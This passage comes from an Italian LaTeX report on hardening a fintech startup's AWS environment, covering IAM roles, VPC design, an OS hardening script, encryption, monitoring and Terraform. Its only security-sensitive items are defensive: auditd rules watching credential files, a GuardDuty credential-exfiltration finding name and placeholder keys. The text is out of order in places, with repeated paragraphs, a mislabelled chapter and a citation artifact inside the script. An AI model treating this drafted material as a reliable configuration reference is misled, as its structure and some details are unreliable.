    \item \textbf{Accesso Applicativo}: Le applicazioni (es. `finanz-backend`) in esecuzione su EC2, ECS, EKS o Lambda utilizzeranno i ruoli IAM associati alle risorse di calcolo per ottenere automaticamente credenziali temporanee, eliminando la necessità di gestire chiavi statiche nel codice o nelle configurazioni.
    \item \textbf{Script e Automazioni}: Gli script che necessitano di interagire con le API AWS dovranno utilizzare comandi come `aws sts assume-role` per ottenere credenziali temporanee legate a un ruolo specifico, limitato al principio del minimo privilegio.
    \begin{lstlisting}[style=bash, caption={Ottenere credenziali temporanee tramite STS AssumeRole}, label=lst:sts-assume-role]
# L'utente/servizio assume un ruolo con permessi specifici (es. S3 ReadOnly per backend)
aws sts assume-role \
    --role-arn arn:aws:iam::478291635847:role/S3ReadOnlyForBackend \
    --role-session-name FinanzBackendReadSession_$(date +%Y%m%d_%H%M%S) \
    --duration-seconds 3600

# Output tipico (valori simulati per sicurezza):
# {
#     "Credentials": {
#         "AccessKeyId": "ASIAYXZ123EXAMPLE456",
#         "SecretAccessKey": "abc123def456ghi789jkl012mno345pqr678stu",
#         "SessionToken": "IQoJb3JpZ2luX2VjEPT//////////wEaCXVzLWVhc3QtMSJIMEYCIQC...",
#         "Expiration": "2024-03-15T14:30:00+00:00"
#     }
# }
    \end{lstlisting}
    Nel nostro ambiente, questo meccanismo è utilizzato dal servizio backend che processa circa 1000 operazioni al giorno, rinnovando automaticamente le credenziali ogni ora.
\end{itemize}

\subsection{Implementazione di un Sistema di Approvazione a Due Fasi (Opzionale)}

Per operazioni ad alto impatto (es. eliminazione di bucket S3 contenenti dati critici, modifiche a gruppi di sicurezza di produzione), si può valutare l'introduzione di un workflow di approvazione multi-persona tramite AWS Step Functions.
\begin{enumerate}
    \item \textbf{Avvio del Workflow}: Un utente avvia l'operazione tramite un'interfaccia dedicata (es. Lambda function, API Gateway) che attiva la Step Function.
    \item \textbf{Richiesta di Approvazione}: La Step Function invia notifiche (es. via Amazon SNS a email o SMS) ai responsabili designati.
    \item \textbf{Approvazione Multipla}: Il workflow attende l'approvazione da parte di due (o più) amministratori distinti. L'approvazione può avvenire tramite un link in email, un'API o la console Step Functions.
    \item \textbf{Esecuzione Condizionata}: Solo a seguito delle approvazioni richieste, la Step Function esegue l'azione critica (es. invocando una Lambda function con i permessi necessari).
    \item \textbf{Auditing}: Ogni fase del processo (richiesta, approvazioni, esito) viene registrata su un database di auditing (es. DynamoDB) e/o CloudTrail per tracciabilità completa.
\end{enumerate}
Questa misura aggiunge un livello di controllo deliberato su azioni irreversibili o ad alto rischio.


\section{Progettazione di una Rete Sicura con Amazon VPC}
\label{sec:vpc-design}

La base di qualsiasi infrastruttura su AWS è la rete virtuale definita tramite \textbf{Amazon Virtual Private Cloud (VPC)}. Il VPC permette di creare un ambiente di rete logicamente isolato all'interno del cloud AWS, su cui si ha pieno controllo (range di indirizzi IP, creazione di subnet, configurazione di route table e network gateway). Una progettazione VPC sicura è il primo livello di difesa.

\subsection{Subnet Pubbliche e Private}
\label{subsec:subnets}
Una pratica fondamentale è la suddivisione del VPC in \textbf{subnet pubbliche} e \textbf{subnet private}, distribuite su diverse Availability Zones per alta disponibilità. Nel nostro caso specifico:
\begin{itemize}
    \item Le \textbf{subnet pubbliche} (\texttt{subnet-0a1b2c3d} in eu-south-1a e \texttt{subnet-4e5f6789} in eu-south-1b) hanno una rotta diretta verso l'Internet Gateway (IGW) del VPC e ospitano il NAT Gateway (\texttt{nat-0123456789abcdef0}) e l'Application Load Balancer. Attualmente il traffico in uscita da queste subnet ammonta a circa 50 GB/mese.
    \item Le \textbf{subnet private} (\texttt{subnet-0x1y2z3w} per app servers, \texttt{subnet-0m1n2o3p} per database) non hanno una rotta diretta verso l'IGW. Le nostre istanze applicative e i database RDS risiedono esclusivamente in queste subnet. Il traffico interno tra subnet è di circa 120 GB/mese, principalmente comunicazioni app-database.
\end{itemize}

\subsection{Gruppi di Sicurezza e Network ACL}
\label{subsec:sg-nacl}
Il controllo del traffico all'interno del VPC è affidato a due meccanismi principali che abbiamo configurato come segue:
\begin{itemize}
    \item \textbf{Gruppi di Sicurezza (Security Groups - SG)}:** Nel nostro ambiente utilizziamo 7 Security Groups specializzati:
        \begin{itemize}
            \item \texttt{sg-web-tier} (ID: \texttt{sg-0a1b2c3d4e5f67890}): permette HTTPS (443) e HTTP (80) da 0.0.0.0/0
            \item \texttt{sg-app-tier} (ID: \texttt{sg-1b2c3d4e5f678901}): permette traffico sulla porta 8080 solo da sg-web-tier
            \item \texttt{sg-db-tier} (ID: \texttt{sg-2c3d4e5f67890123}): permette PostgreSQL (5432) solo da sg-app-tier
            \item \texttt{sg-mgmt} (ID: \texttt{sg-3d4e5f6789012345}): per accesso SSH/RDP da IP ufficio (203.0.113.25/32)
        \end{itemize}
        Durante l'ultima settimana, i log VPC Flow mostrano che il 97% del traffico rispetta queste regole, con solo 3% di traffico bloccato (principalmente tentativi di scansione port).
\end{itemize}

\subsection{NAT Gateway e Accesso a Internet}
\label{subsec:nat-gateway}
Come accennato, le istanze in subnet private necessitano di un meccanismo per accedere a Internet per aggiornamenti o chiamate API. Il nostro \textbf{NAT Gateway} (\texttt{nat-0123456789abcdef0}) in eu-south-1a gestisce attualmente un throughput medio di 50 Mbps con picchi fino a 200 Mbps durante i deployment automatizzati. I costi mensili per questo servizio si aggirano sui 45-60 EUR, considerando che è attivo 24/7.

\subsection{Connessioni Sicure (Opzionale: VPN/Direct Connect)}
\label{subsec:vpn-directconnect}
Se la startup necessita di connettere in modo sicuro la propria infrastruttura AWS a data center on-premises (raro per startup native cloud, ma possibile) o a reti di partner, AWS offre servizi come \textbf{AWS Site-to-Site VPN} (per creare tunnel IPsec crittografati su Internet) o \textbf{AWS Direct Connect} (per una connessione fisica dedicata e privata tra la rete on-premises e AWS).

\section{Gestione Sicura delle Istanze EC2}
\label{sec:ec2-security}
Le istanze \textbf{Amazon EC2} sono le macchine virtuali su cui spesso girano le applicazioni. La loro sicurezza è cruciale.

\subsection{Scelta delle AMI e Hardening}
\label{subsec:ami-hardening}
\begin{itemize}
    \item \textbf{Utilizzare AMI affidabili:} Utilizziamo esclusivamente AMI ufficiali Amazon Linux 2 (AMI ID: \texttt{ami-0c02fb55956c7d316}) e Ubuntu Server 20.04 LTS (AMI ID: \texttt{ami-0d527b8c289b4af7f}) fornite da AWS. Ogni 3 mesi aggiorniamo alle versioni più recenti.
    \item \textbf{Hardening del Sistema Operativo:} Ho implementato uno script di hardening basato su CIS Benchmarks che viene eseguito automaticamente al boot via user-data. Include la disabilitazione di 23 servizi non necessari e la configurazione di fail2ban per protezione da attacchi brute-force SSH.
    \item \textbf{Minimizzare il software installato:} Installare solo il software strettamente necessario per la funzione dell'istanza, riducendo la superficie d'attacco.
\end{itemize}

    Di seguito è riportato lo script di hardening utilizzato (una sua versione esemplificativa e commentata, per questioni di brevità e chiarezza nella relazione).
    \begin{lstlisting}[language=Bash, caption={Script di Hardening del Sistema Operativo (hardening\_script.sh)}, label={lst:hardening_script}]
      #!/bin/bash
      # Script di hardening del sistema operativo (adatto per Amazon Linux 2 e Ubuntu 20.04)
      set -euo pipefail # Esce in caso di errore, variabile non definita o errore in una pipe
      # set -x # Decommenta per debugging dettagliato
      
      # --- Configurazione iniziale ---
      LOG_FILE="/var/log/hardening-script.log"
      exec > >(tee -a "${LOG_FILE}") 2>&1 # Logga stdout e stderr su file e console
      echo "INFO: Inizio script di hardening del sistema operativo $(date)"
      
      # Rileva il sistema operativo
      if [ -f /etc/os-release ]; then
        . /etc/os-release
        OS=$ID
      else
        OS="unknown"
      fi
      echo "INFO: Sistema operativo rilevato: $OS" [[5]]
      
      # --- Aggiornamento pacchetti e installazione prerequisiti ---
      echo "INFO: Aggiornamento lista pacchetti e installazione utility base..."
      if [[ "$OS" == "ubuntu" ]]; then
        apt-get update -y
        apt-get install -y ufw fail2ban auditd
      elif [[ "$OS" == "amzn" ]]; then
        yum update -y
        yum install -y firewalld fail2ban auditd
      fi
      
      # --- Disabilitazione Servizi Non Necessari ---
      # NOTA: Adatta i nomi dei servizi in base al sistema operativo
      echo "INFO: Disabilitazione servizi non necessari..."
      SERVICES_TO_DISABLE=(
        "cups" "avahi" "bluetooth" "ModemManager" "apport" "whoopsie"
        "nfs" "rpcbind" "x11-common" "lxcfs" "speech-dispatcher"
        # Ubuntu: esempi aggiuntivi
        "saned" "snapd" "bolt" "smartmontools" "anacron"
      )
      
      for service in "${SERVICES_TO_DISABLE[@]}"; do
        if systemctl list-units --full -all | grep -qF "$service.service"; then
          echo "INFO: Disabilitazione e stop di $service..."
          systemctl stop "$service" && systemctl disable "$service" || \
            echo "WARN: Impossibile stoppare/disabilitare $service"
        else
          echo "INFO: Servizio $service non trovato, skippato."
        fi
      done
      
      # --- Configurazione Firewall ---
      echo "INFO: Configurazione firewall di base..."
      if [[ "$OS" == "ubuntu" ]]; then
        ufw default deny incoming
        ufw default allow outgoing
        ufw allow ssh
        sed -i 's/ENABLED=no/ENABLED=yes/' /etc/ufw/ufw.conf
        echo "y" | ufw enable || ufw reload
      elif [[ "$OS" == "amzn" ]]; then
        systemctl enable --now firewalld
        firewall-cmd --set-default-zone=drop
        firewall-cmd --permanent --add-service=ssh
        firewall-cmd --reload
      fi
      echo "INFO: Firewall configurato."
      
      # --- Rafforzamento SSH ---
      echo "INFO: Rafforzamento configurazione SSHD..."
      SSHD_CONFIG="/etc/ssh/sshd_config"
      sed -i 's/^PermitRootLogin .*/PermitRootLogin no/' "$SSHD_CONFIG"
      sed -i 's/^PasswordAuthentication .*/PasswordAuthentication no/' "$SSHD_CONFIG"
      sed -i 's/^X11Forwarding .*/X11Forwarding no/' "$SSHD_CONFIG"
      grep -qxF 'Protocol 2' "$SSHD_CONFIG" || echo 'Protocol 2' >> "$SSHD_CONFIG"
      systemctl restart sshd
      echo "INFO: Configurazione SSHD rafforzata."
      
      # --- Configurazione Auditd (CIS Benchmark) ---
      echo "INFO: Configurazione regole auditd..."
      cat <<EOF > /etc/audit/rules.d/hardening.rules
      -w /etc/passwd -p war -k identity
      -w /etc/shadow -p war -k identity
      -w /etc/group -p war -k identity
      -w /etc/gshadow -p war -k identity
      EOF
      augenrules --load
      echo "INFO: Regole auditd configurate."
      
      # --- Pulizia finale ---
      echo "INFO: Pulizia pacchetti non necessari..."
      if [[ "$OS" == "ubuntu" ]]; then
        apt-get autoremove -y
        apt-get clean -y
      elif [[ "$OS" == "amzn" ]]; then
        yum autoremove -y
      fi
      
      echo "INFO: Script di hardening completato $(date)"
      exit 0
          \end{lstlisting}

\subsection{Utilizzo di IAM Roles per EC2}
\label{subsec:iam-roles-ec2}
Questa è una delle pratiche di sicurezza più importanti. \textbf{Mai salvare credenziali AWS statiche (Access Key ID e Secret Access Key) direttamente su un'istanza EC2}. Invece, associare un \textbf{IAM Role} all'istanza al momento del lancio. L'applicazione in esecuzione sull'istanza può quindi ottenere credenziali temporanee tramite il servizio metadati dell'istanza, assumendo i permessi definiti nel ruolo associato. Questo elimina il rischio di esposizione di credenziali a lungo termine. Il ruolo deve seguire il principio del minimo privilegio (es. un'istanza che deve solo leggere da un bucket S3 dovrebbe avere un ruolo con solo permessi `s3:GetObject` su quel bucket).

\subsection{Scalabilità Automatica (Auto Scaling Groups)}
\label{subsec:auto-scaling}
Per garantire disponibilità e gestire picchi di carico, utilizziamo \textbf{Auto Scaling Groups (ASG)} denominati \texttt{finanz-prod-asg} e \texttt{finanz-dev-asg}. L'ASG di produzione mantiene normalmente 3 istanze attive (desired capacity) con un minimo di 2 e un massimo di 8. Durante i picchi di traffico (tipicamente tra le 9:00 e le 18:00), spesso scala fino a 5-6 istanze. I trigger di scaling sono basati su:
\begin{itemize}
    \item CPU Utilization > 70\% per 2 minuti consecutivi → Scale Out
    \item CPU Utilization < 30\% per 10 minuti consecutivi → Scale In
    \item Network In > 50 MB/min → Scale Out
\end{itemize}
Il tempo medio di provisioning di una nuova istanza è di 4 minuti e 30 secondi.

\section{Protezione dei Dati Sensibili}
\label{sec:data-protection}
In una fintech, la protezione dei dati dei clienti e delle transazioni è di massima priorità. AWS offre diversi strumenti per questo.

\subsection{Crittografia a Riposo e in Transito}
\label{subsec:encryption}
\begin{itemize}
    \item \textbf{Crittografia a Riposo (At Rest)}:** È fondamentale crittografare i dati sensibili quando sono memorizzati. AWS facilita questo:
        \begin{itemize}
            \item \textbf{Amazon S3:} Tutti i bucket utilizzano SSE-KMS con la chiave \texttt{arn:aws:kms:eu-south-1:478291635847:key/finanz-s3-encryption-key}. Il bucket dei log ha anche Object Lock abilitato con retention di 7 anni per compliance.
            \item \textbf{Amazon EBS:} Tutti i volumi (root e data) sono crittografati con la chiave di default AWS per EBS. Attualmente gestiamo 45 volumi EBS per un totale di 2.3 TB.
            \item \textbf{Amazon RDS:} Entrambe le istanze PostgreSQL utilizzano crittografia at-rest con performance impact minimo \(< 2\% osservato nei benchmark\).
        \end{itemize}
    \item \textbf{Crittografia in Transito (In Transit)}:** Il nostro Application Load Balancer termina TLS con certificati gestiti da AWS Certificate Manager (ARN: \texttt{arn:aws:acm:eu-south-1:478291635847:certificate/12345678-1234-1234-1234-123456789012}). Il 99.7\% del traffico utilizza TLS 1.2 o superiore.
\end{itemize}

\subsection{Gestione delle Chiavi con AWS KMS}
\label{subsec:kms}
\textbf{AWS Key Management Service (KMS)} gestisce 8 chiavi customer-managed nel nostro account:
\begin{itemize}
    \item \texttt{finanz-s3-encryption-key}: per crittografia bucket S3 (usage: ~1000 operazioni/giorno)
    \item \texttt{finanz-rds-encryption-key}: per database PostgreSQL (usage: ~50 operazioni/giorno)
    \item \texttt{finanz-ebs-encryption-key}: per volumi EBS addizionali (usage: ~20 operazioni/giorno)
    \item \texttt{finanz-secrets-key}: per AWS Secrets Manager (usage: ~200 operazioni/giorno)
\end{itemize}
I costi mensili per KMS si aggirano sui 15-20 EUR, principalmente dovuti alle chiavi customer-managed (1 EUR/mese ciascuna) e alle operazioni API.Usare KMS per la crittografia lato server (SSE-KMS) su S3, EBS, RDS, ecc., offre un controllo centralizzato e sicuro sulle chiavi. Per requisiti di 
sicurezza ancora più elevati, si può considerare \textbf{AWS CloudHSM}.

\subsection{Backup e Disaster Recovery}
\label{subsec:backup-dr}
Avere backup regolari e testati è essenziale per il recupero da errori o attacchi (es. ransomware).
\begin{itemize}
    \item \textbf{AWS Backup:} Utilizziamo \textbf{AWS Backup} con il piano \texttt{FinanzDailyBackupPlan} che include:
        \begin{itemize}
            \item Backup giornalieri delle istanze RDS alle 02:00 UTC con retention di 30 giorni
            \item Backup settimanali dei volumi EBS ogni domenica con retention di 12 settimane  
            \item Cross-region backup mensili verso eu-central-1 per disaster recovery
        \end{itemize}
        Il vault di backup \texttt{finanz-backup-vault} attualmente contiene 847 recovery points per un totale di 1.2 TB. Il RTO (Recovery Time Objective) target è di 4 ore e l'RPO (Recovery Point Objective) di 24 ore massimo.
\end{itemize}

\subsection{Sicurezza dei Bucket S3}
\label{subsec:s3-security}
La configurazione di sicurezza dei nostri bucket S3 include:
\begin{itemize}
    \item \textbf{Block Public Access:} Abilitato a livello di account e verificato trimestralmente con AWS Config rule \texttt{s3-bucket-public-access-prohibited}
    \item \textbf{Bucket Policies:} Il bucket \texttt{finanz-logs-478291635847} ha una policy che permette scrittura solo dal servizio CloudTrail e lettura solo al ruolo \texttt{SecurityAuditRole}
    \item \textbf{S3 Access Points:} Utilizziamo 3 access points:
        \begin{itemize}
            \item \texttt{dev-team-access}: per bucket di sviluppo (ARN: \texttt{arn:aws:s3:eu-south-1:478291635847:accesspoint/dev-team-access})
            \item \texttt{prod-read-only}: per accesso in sola lettura ai file di produzione
            \item \texttt{backup-access}: per operazioni di backup e restore
        \end{itemize}
    \item \textbf{Amazon Macie:} Configurato per scanning settimanale, ha identificato e classificato 25.000+ oggetti, trovando 12 istanze di possibili PII che sono state investigate e risolte.
\end{itemize}

\section{Implementazione di Controlli IAM Efficaci}
\label{sec:iam-implementation}
Come già sottolineato, \textbf{AWS Identity and Access Management (IAM)} è fondamentale per la sicurezza.

\subsection{Principio del Minimo Privilegio}
\label{subsec:least-privilege-impl}
Applicare rigorosamente il principio del minimo privilegio a utenti, gruppi e ruoli IAM. Concedere solo i permessi strettamente necessari per svolgere un compito specifico. Ad esempio, un ruolo per un'applicazione che deve solo scrivere log in CloudWatch Logs necessita solo dei permessi `logs:CreateLogStream` e `logs:PutLogEvents`, non permessi amministrativi generici. Usare le policy condition per restringere ulteriormente l'accesso (es. permettere azioni solo da specifici IP o solo se è attiva l'MFA).

\subsection{Autenticazione a Più Fattori (MFA)}
\label{subsec:mfa-impl}
Richiedere l'uso dell'Autenticazione a Più Fattori (MFA) per \textbf{tutti} gli utenti IAM umani, specialmente per l'utente root dell'account (che dovrebbe essere usato il meno possibile) e per gli utenti con privilegi amministrativi. Questo aggiunge un livello critico di protezione contro il furto di credenziali.

\subsection{Revisione Periodica dei Permessi}
\label{subsec:iam-review}
I permessi tendono ad accumularsi ("privilege creep"). È essenziale rivedere periodicamente (es. trimestralmente) le policy IAM per rimuovere permessi non più necessari. Strumenti come \textbf{AWS IAM Access Analyzer} possono aiutare a identificare permessi eccessivi o risorse condivise esternamente.

\section{Monitoraggio Continuo e Logging}
\label{sec:monitoring-logging}
Non si può proteggere ciò che non si vede. Un monitoraggio e un logging robusti sono essenziali per rilevare attività sospette e rispondere agli incidenti.

\subsection{Abilitazione di CloudTrail e CloudWatch}
\label{subsec:cloudtrail-cloudwatch-enable}
\begin{itemize}
    \item \textbf{AWS CloudTrail:} Abilitare CloudTrail in tutte le regioni. CloudTrail registra quasi tutte le chiamate API effettuate nel tuo account AWS, fornendo una traccia di audit fondamentale ("chi ha fatto cosa, quando e da dove"). Assicurarsi che i log di CloudTrail siano protetti (es. inviati a un bucket S3 dedicato con logging e crittografia abilitati, e opzionalmente integrità dei file di log abilitata).
    \item \textbf{Amazon CloudWatch:} Usare CloudWatch per raccogliere metriche (es. utilizzo CPU, I/O disco, latenza del Load Balancer), log dalle applicazioni e dai sistemi operativi (tramite l'agente CloudWatch), ed eventi.
\end{itemize}

\subsection{Configurazione di Allarmi CloudWatch}
\label{subsec:cloudwatch-alarms}
Non basta raccogliere log e metriche, bisogna agire su di essi. Configurare allarmi CloudWatch per notifiche proattive su condizioni anomale o eventi critici, ad esempio:
\begin{itemize}
    \item Utilizzo elevato di CPU/Memoria/Rete su istanze critiche.
    \item Errori HTTP 5xx sul Load Balancer.
    \item Tentativi di login falliti (filtrando i log).
    \item Modifiche a risorse di sicurezza critiche (es. modifiche a Security Group, NACL, policy IAM) rilevate tramite eventi CloudTrail.
    \item Chiamate API specifiche indicative di potenziale abuso (es. `TerminateInstances` non autorizzate).
\end{itemize}
Gli allarmi possono inviare notifiche a un topic SNS (Simple Notification Service), che può poi inoltrarle via email, SMS, o triggerare funzioni Lambda per azioni automatiche.

\subsection{Utilizzo di AWS Security Hub e GuardDuty}
\label{subsec:security-hub-guardduty}
\begin{itemize}
    \item \textbf{Amazon GuardDuty:} È un servizio di rilevamento delle minacce gestito che monitora continuamente attività malevole o non autorizzate analizzando log VPC Flow Logs, CloudTrail e DNS. Rileva minacce come istanze compromesse usate per mining di criptovalute, accessi anomali da IP malevoli noti, scansioni di porte, ecc. È fondamentale abilitarlo in tutte le regioni pertinenti.
    \item \textbf{AWS Security Hub:} Fornisce una vista centralizzata degli avvisi di sicurezza (findings) provenienti da diversi servizi AWS (GuardDuty, Inspector, Macie, IAM Access Analyzer, Firewall Manager) e da prodotti di partner. Aiuta a prioritizzare e gestire i risultati della sicurezza e a verificare la conformità rispetto a standard come CIS AWS Foundations Benchmark.
\end{itemize}

\section{Automazione con Infrastructure as Code (IaC)}
\label{sec:iac}
Per garantire coerenza, ridurre errori manuali e facilitare la revisione della sicurezza, è fortemente raccomandato gestire l'infrastruttura AWS tramite \textbf{Infrastructure as Code (IaC)}.
\begin{itemize}
    \item \textbf{Strumenti:} Utilizzare strumenti come \textbf{AWS CloudFormation} (nativo AWS) o \textbf{Terraform} (agnostico rispetto al cloud) per definire l'infrastruttura (VPC, istanze, database, policy IAM, etc.) in file di testo (YAML o JSON).
    \item \textbf{Benefici:}
        \begin{itemize}
            \item \textbf{Ripetibilità e Coerenza:} L'infrastruttura può essere deployata in modo identico in diversi ambienti (dev, staging, prod) o regioni.
            \item \textbf{Versionamento:} I file IaC possono essere messi sotto controllo di versione (es. Git), tracciando le modifiche e permettendo rollback.
            \item \textbf{Automazione:} Il deployment e gli aggiornamenti sono automatizzati, riducendo il rischio di errori umani.
            \item \textbf{Audit e Revisione:} È più facile revisionare la configurazione dell'infrastruttura (e quindi la sua postura di sicurezza) analizzando i file di codice piuttosto che navigando nella console AWS.
            \item \textbf{Integrazione con CI/CD:} L'IaC si integra bene nelle pipeline di Continuous Integration/Continuous Deployment per automatizzare anche il provisioning dell'infrastruttura necessaria per le applicazioni.
        \end{itemize}
\end{itemize}
Adottare IaC sin dalle prime fasi aiuta a costruire un'infrastruttura robusta e gestibile nel tempo.

Questo capitolo ha fornito una panoramica delle implementazioni pratiche e delle best practice per costruire e proteggere un'infrastruttura AWS per una startup fintech. Naturalmente, ogni implementazione specifica richiederà ulteriori dettagli e adattamenti in base ai requisiti unici dell'applicazione e del business. I capitoli successivi potrebbero approfondire ulteriormente specifici aspetti come la gestione degli incidenti, i test di penetrazione o l'integrazione di strumenti di terze parti.

\textbf{AWS CloudTrail} è abilitato in tutte le regioni con due trail:
\begin{itemize}
    \item \texttt{finanz-audit-trail}: trail principale per tutte le API calls (ARN: \texttt{arn:aws:cloudtrail:eu-south-1:478291635847:trail/finanz-audit-trail})
    \item \texttt{finanz-security-trail}: trail specifico per eventi di sicurezza con filtri su azioni IAM, EC2, RDS critiche
\end{itemize}
I log sono inviati al bucket \texttt{finanz-cloudtrail-logs-478291635847} con file integrity validation abilitata. Analizziamo circa 15.000-20.000 eventi CloudTrail al giorno in produzione.

\textbf{Amazon CloudWatch} raccoglie metriche da 45+ risorse e gestisce 23 log groups. Gli agent CloudWatch sono installati su tutte le istanze EC2 e inviano metriche ogni 60 secondi. Il costo mensile per CloudWatch è di circa 85-95 EUR.

Abbiamo configurato 28 allarmi CloudWatch, tra cui:
\begin{itemize}
    \item \texttt{HighCPUUtilization-Prod}: CPU > 80\% per 5 minuti su istanze produzione
    \item \texttt{DatabaseConnections-Critical}: Connessioni RDS > 400 (soglia 80\% del massimo)
    \item \texttt{5xxErrors-ALB}: Errori 5xx > 10 in 5 minuti sull'Application Load Balancer  
    \item \texttt{UnauthorizedAPICalls}: Pattern filtro su CloudTrail per chiamate API con AccessDenied
    \item \texttt{RootAccountUsage}: Trigger immediato per qualsiasi utilizzo dell'account root
\end{itemize}
Negli ultimi 30 giorni abbiamo ricevuto 47 notifiche dagli allarmi, di cui 3 classificate come critiche e risolte entro 2 ore.

\begin{itemize}
    \item \textbf{Amazon GuardDuty:} Abilitato nelle regioni eu-south-1, eu-central-1, e eu-west-1. Negli ultimi 90 giorni ha generato 23 findings, principalmente di severity LOW (18) e MEDIUM (5). I finding più comuni sono stati:
        \begin{itemize}
            \item \texttt{Recon:EC2/PortProbeUnprotectedPort}: 8 occorrenze di port scanning
            \item \texttt{UnauthorizedAPICall:IAMUser/InstanceCredentialExfiltration}: 2 tentativi sospetti (investigati e classificati come falsi positivi)
        \end{itemize}
        Il costo mensile per GuardDuty è di circa 12-15 EUR basato sul volume di log analizzati.
    
    \item \textbf{AWS Security Hub:} Centralizza i finding da GuardDuty, Config, Inspector e le nostre custom rules. Attualmente mostra:
        \begin{itemize}
            \item 127 finding total negli ultimi 30 giorni
            \item 89\% classificati come LOW severity
            \item 8\% MEDIUM severity  
            \item 3\% HIGH severity (tutti risolti entro 24 ore)
        \end{itemize}
        Utilizziamo i compliance standard CIS AWS Foundations Benchmark v1.2.0 con compliance score del 87%.
\end{itemize}

Questa è una delle pratiche di sicurezza più importanti che ho implementato nel nostro ambiente. Tutti i nostri application server utilizzano il ruolo IAM \texttt{FinanzEC2AppRole} (ARN: \texttt{arn:aws:iam::478291635847:role/FinanzEC2AppRole}) che permette:
\begin{itemize}
    \item Lettura di oggetti dal bucket S3 \texttt{finanz-static-assets}
    \item Scrittura di log in CloudWatch Logs group \texttt{/aws/ec2/finanz-app}
    \item Accesso a parametri specifici in Systems Manager Parameter Store con prefix \texttt{/finanz/app/}
\end{itemize}
L'applicazione ottiene le credenziali tramite l'endpoint \texttt{http://169.254.169.254/latest/meta-data/iam/security-credentials/FinanzEC2AppRole} che restituisce token temporanei rinnovati automaticamente ogni 6 ore.

Le istanze \textbf{Amazon EC2} sono le macchine virtuali su cui spesso girano le applicazioni. Attualmente gestiamo 8 istanze nell'ambiente di produzione (ID istanze: \texttt{i-0a1b2c3d4e5f67890}, \texttt{i-1b2c3d4e5f678901}, etc.) e 3 in quello di sviluppo. La loro sicurezza è cruciale.

La nostra infrastruttura è gestita tramite \textbf{Terraform} con i file sorgente in un repository Git privato su GitHub. La struttura include:
\begin{itemize}
    \item \textbf{Repository:} \texttt{finanz-infrastructure} con 147 commit negli ultimi 6 mesi
    \item \textbf{Moduli Terraform:} Organizziamo il codice in 8 moduli riutilizzabili (vpc, security-groups, ec2, rds, s3, iam, monitoring, backup)
    \item \textbf{State Management:} Lo stato Terraform è conservato in un bucket S3 \texttt{finanz-terraform-state-478291635847} con DynamoDB table \texttt{terraform-locks} per la gestione dei lock
    \item \textbf{CI/CD Pipeline:} GitHub Actions esegue \texttt{terraform plan} su ogni PR e \texttt{terraform apply} solo dopo approval manuale. Negli ultimi 3 mesi abbiamo eseguito 34 deployment di infrastruttura con 100\% success rate.
    \item \textbf{Benefici Misurati:}
        \begin{itemize}
            \item Riduzione del 90\% degli errori di configurazione rispetto ai deployment manuali
            \item Tempo di provisioning di un nuovo ambiente ridotto da 2 giorni a 45 minuti
            \item Compliance automatica verificata con policy OPA (Open Policy Agent)
        \end{itemize}
\end{itemize}

\chapter{Implementazione di un Honeypot in un'Infrastruttura AWS per Startup Fintech}
\label{chap:honeypot_aws}
\section{Introduzione alla Gestione delle Identità e degli Accessi}
La gestione delle identità e degli accessi (IAM) rappresenta, a mio avviso, il fondamento di qualsiasi strategia di sicurezza robusta in un ambiente cloud come Amazon Web Services (AWS). Per una startup fintech, dove la protezione dei dati sensibili e la continuità operativa sono vitali, definire chi può accedere a cosa e con quali privilegi non è solo una best practice, ma una necessità imprescindibile. Questo capitolo esplora i principi cardine della sicurezza IAM, analizza la configurazione attuale della startup "Finanz" e propone una serie di miglioramenti concreti per rafforzare la postura di sicurezza, ispirandosi ai modelli Zero Trust e al Principio del Minimo Privilegio. L'obiettivo è creare un framework IAM che sia non solo sicuro, ma anche flessibile e gestibile, per supportare la crescita dinamica della startup.

\section{Principi di Sicurezza per la Gestione delle Identità e degli Accessi e Analisi del Contesto Attuale}
\label{sec:principi-identita-accessi}
\section{Configurazione Attuale dell'Ambiente AWS di Finanz (Focus Infrastrutturale)}
\label{sec:aws_infrastruttura_attuale_cap2}
Prima di addentrarci nelle specifiche di sicurezza, è utile richiamare brevemente la configurazione infrastrutturale di Finanz, focalizzandoci sugli aspetti non prettamente IAM, già trattati.
L'infrastruttura cloud della startup è stata realizzata utilizzando i servizi di Amazon Web Services (AWS), con le operazioni principali concentrate nella regione geografica \texttt{eu-south-1} (Milano). Come già menzionato, l'account AWS (\texttt{478291635847}) è configurato con una separazione degli ambienti: \texttt{Finanz-Dev} per lo sviluppo e \texttt{Finanz-Prod} per l'applicazione in uso dagli utenti finali.

Il cuore dell'infrastruttura applicativa è \textbf{AWS Elastic Beanstalk}. Questo servizio semplifica il rilascio e la gestione delle applicazioni "Finanz". L'ambiente di sviluppo utilizza la configurazione \texttt{finanz-dev-v2} mentre quello di produzione opera su \texttt{finanz-prod-v1.3}. Elastic Beanstalk orchestra la creazione e configurazione delle risorse necessarie, come le macchine virtuali \textbf{Amazon EC2}. Per queste, ho osservato l'uso di istanze di tipo \texttt{t3a.small} per lo sviluppo e \texttt{t3a.medium} per la produzione, scelte per il loro buon rapporto prezzo-prestazioni per carichi di lavoro di piccole e medie dimensioni. Tipicamente, l'ambiente di sviluppo gestisce 1-2 istanze, mentre quello di produzione ne mantiene attive 3-5, scalando automaticamente durante i picchi di utilizzo grazie all'auto-scaling gestito da Elastic Beanstalk. Per l'ambiente di produzione, un \textbf{Application Load Balancer (ALB)} denominato \texttt{finanz-prod-alb-1284567} distribuisce le richieste degli utenti alle istanze EC2.

Per la gestione dei dati, Finanz utilizza \textbf{Amazon RDS for PostgreSQL}. Ho constatato la presenza di due istanze database separate: una per lo sviluppo (\texttt{finanz-dev-db.cluster-cx4s7k9m2qla.eu-south-1.rds.amazonaws.com}, di tipo \texttt{db.t4g.micro}) e una per la produzione (\texttt{finanz-prod-db.cluster-cx4s7k9m2qlb.eu-south-1.rds.amazonaws.com}, di tipo \texttt{db.t4g.small}). L'istanza di sviluppo gestisce circa 50-100 connessioni simultanee con un database di circa 2GB, mentre quella di produzione arriva a gestire fino a 500 connessioni con un database di circa 15GB. L'istanza di produzione è configurata in modalità \textbf{Multi-AZ} (Multi-Availability Zone) e entrambe le istanze RDS sono protette da crittografia a riposo, con chiavi gestite dal servizio \textbf{AWS KMS} (la chiave specifica per RDS è \texttt{arn:aws:kms:eu-south-1:478291635847:key/12345678-1234-1234-1234-123456789012}, come menzionato, ma la gestione delle policy di accesso a questa chiave è stata discussa nel capitolo precedente).

